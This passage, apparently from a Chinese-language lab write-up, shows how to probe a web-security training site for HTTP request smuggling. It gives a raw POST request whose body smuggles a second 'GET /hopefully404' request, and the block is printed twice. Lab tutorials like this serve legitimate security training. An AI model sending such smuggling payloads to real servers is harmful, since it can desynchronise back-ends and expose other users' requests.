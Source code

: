 [![](assets/1705301772-ce9583745d68dad7bdbbc37d9e9052d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182612-57345bea-b2c7-1.png)  
随后将请求URL更改为其他要Fuzzing的路径并更改请求头信息"Connection: keep-alive"发送请求

```plain
POST /resources/images/blog.svg HTTP/1.1
Host: 0a8c00d004c4ccae80e076ac00ff00b0.web-security-academy.net
Cookie: session=IWGFngB34izV5bdhofMgnRjh8NOICpf4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

[![](assets/1705301772-0e9ff2d35db35232c733119a8edd4c7c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182631-622cbc90-b2c7-1.png)  
如果服务器正常响应第二个请求，则此端点不会受到攻击，如果对第二个请求的响应与我们期望的走私前缀相匹配，则表面后端服务器会忽略请求头中的"Content-Length"

```plain
POST /resources/images/blog.svg HTTP/1.1
Host: 0a8c00d004c4ccae80e076ac00ff00b0.web-security-academy.net
Cookie: session=IWGFngB34izV5bdhofMgnRjh8NOICpf4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```
